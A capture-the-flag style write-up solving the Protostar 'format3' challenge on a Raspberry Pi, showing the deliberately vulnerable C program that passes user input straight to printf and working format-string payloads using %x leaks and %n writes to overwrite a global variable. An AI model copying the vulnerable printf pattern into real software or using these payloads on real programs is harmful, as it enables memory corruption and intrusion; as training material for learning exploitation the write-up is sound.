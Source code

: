 ## Protostar ARM format3

#### Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);

  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

#### _Let's start_


This challenge is pretty similar to the challenge `format2` but this time we must be able to write 4 bytes to change the value related to the variable `target`.  

We will start from the solution used in `format2` and we will _"extend"_ it to solve this challenge.

Before we have to understand, as usual in the previous challenges, the position of our input

```code
pi@raspberrypi:~/protostar/format/format3 $ echo  "`python -c "print 'AAAA'+'%08x '*20 + '%x'"`" | ./format3
AAAA00000000 00000001 7edbd270 000103bc 7edbd270 7edbd474 00010500 41414141 78383025 38302520 30252078 25207838 20783830 78383025 38302520 30252078 25207838 20783830 78383025 38302520 30252078
target is 00000000 :(
pi@raspberrypi:~/protostar/format/format3 $

```

and we have to find the address of the variable `target` which is `0x01010110`

```code
pi@raspberrypi:~/protostar/format/format3 $ objdump -t format3 | grep target
01010110 g     O .bss	00000004              target
```

In the previous challenge we changed only the first byte which represents an integer (4 bytes) but this time, we will change all the bytes representing the integer.
So if the variable `target` starts at `0x01010110` its value is in memory are also in the addresses `0x01010111`, `0x01010112` and `0x01010113` and how as done in `format2` we can use _**Direct Parameter Access Parameter**_ to change byte by byte.



```code
pi@raspberrypi:~/protostar/format/format3 $ python -c 'print "\x10\x01\x01\x01\x11\x01\x01\x01\x12\x01\x01\x01\x13\x01\x01\x01%8$n%9$n%10$n%11$n"' | ./format3

target is 10101010 :(
```

The value of each byte is `0x10` as the bytes printed for the addresses `(4 addresses * 4bytes)` . What we have to do now, is to figure out how many bytes write to make, step by step, our variable `target` = `0x01025544`.


`0x44 - 0x10 = 0x34 = 52` -> `%52d%8\$n`

```code
pi@raspberrypi:~/protostar/format/format3 $ python -c "print '\x10\x01\x01\x01\x11\x01\x01\x01\x12\x01\x01\x01\x13\x01\x01\x01%52d%8\$n'" | ./format3
                                                   0
target is 00000044 :(
```

`0x55 - 0x44 = 0x11 = 17` -> `%17d%9\$n`

```code
pi@raspberrypi:~/protostar/format/format3 $ python -c "print '\x10\x01\x01\x01\x11\x01\x01\x01\x12\x01\x01\x01\x13\x01\x01\x01%52d%8\$n%17d%9\$n'" | ./format3
                                                   0                1
target is 00005544 :(
```

To change the third and the forth bytes we have a little problem because `0x02` is smaller than `0x85` and `0x01` is smaller than `0x02`. Let's try if we can change both of them using an overflow on the third byte in order to have it set to `0x02` and the forth byte set to `0x01` (overflow from the third byte).

`0x102 - 0x55 = 0xAD = 173` -> `%173d%10\$n`

```
pi@raspberrypi:~/protostar/format/format3 $ python -c "print '\x10\x01\x01\x01\x11\x01\x01\x01\x12\x01\x01\x01\x13\x01\x01\x01%52d%8\$n%17d%9\$n%173d%10\$n'" | ./format3
                                                   0                1                                                                                                                                                                   2124608128
you have modified the target :)
```

__*Done :)*__
